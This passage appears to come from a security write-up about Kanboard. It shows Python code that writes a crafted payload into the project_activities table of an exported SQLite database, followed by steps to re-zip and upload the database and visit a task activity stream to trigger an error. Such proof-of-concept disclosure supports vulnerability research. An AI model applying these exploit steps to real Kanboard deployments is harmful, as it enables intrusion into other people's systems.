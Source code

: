     conn = sqlite3.connect("db.sqlite")
    cursor = conn.cursor()

    cursor.execute("""
        UPDATE project_activities
        SET data = ?
        WHERE rowid = ?
    """, (payload.decode('utf-8'), 1)) # CHANGE ROW ID HERE IF NOT TARGETING FIRST ROW

    conn.commit()

    cursor.execute("SELECT data FROM project_activities WHERE id = 1")
    row = cursor.fetchone()
    print(repr(row[0]))
    ```
6. Re-zip the db.sqlite file and upload it.
7. Visit the task activity stream (in my case http://localhost:3000/task/1/activity). You should see the following error.

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/kanboard/kanboard_tostring_success.png" alt="Password Reset" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>
